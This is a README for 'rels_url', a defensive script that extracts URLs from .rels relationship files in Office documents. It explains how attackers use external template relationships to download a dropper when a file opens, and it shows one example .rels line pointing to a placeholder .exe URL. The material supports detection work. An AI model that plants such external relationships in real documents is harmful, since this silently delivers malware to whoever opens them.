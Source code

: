 # rels_url
Office 2007+ Relational links URL extractor  

rels_url is a script that parses post 2007 or newer Micsocoft Office documents (e.g. docx, xlsx, pptx), to reveal URLs located in .rels files.  

**What is a RELS file?**  
Files that contain the .rels file extension are relationship files. These files contain information about how the parts of different Microsoft Office documents fit together. This information is also referred to as relationship parts.

RELS files serve as markers for the documents that they pertain to. They allow the various Microsoft Office applications to utilize the information in one file so that it can be used in another file.

The RELS file format is only compatible with the more recent versions of the Microsoft Office applications which support Open Office XML documents. The RELS files are saved in the directory of the Open Office XML document.

**How threat actors use the RELS files for malicious purposes**  
Threat actors can use the RELS file to access URLs and download a dropper file. This tactic is very sneaky since the .rels files are read when a document is opened and before the user can interact with the document. The user is not prompted to allow the URL to be accessed.  

**Example of a .rels file**  
\<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
\<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">\<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="https://sample.com/sample1/sample2/file.exe" TargetMode="External"/>\</Relationships>

**To Use:**  
rels_url.py  file.docx

*The output will list the folder and file the URL is located in:*  

**Sample Output**  
 C:\Users\cyb3rw01f>rels_url.py D:\rels_docx

_rels/.rels

word/_rels/document.xml.rels

word/_rels/settings.xml.rels  
"https://sample.com/sample1/sample2/file.exe"

customXml/_rels/item1.xml.rels

customXml/_rels/item2.xml.rels

customXml/_rels/item3.xml.rels

customXml/_rels/item4.xml.rels
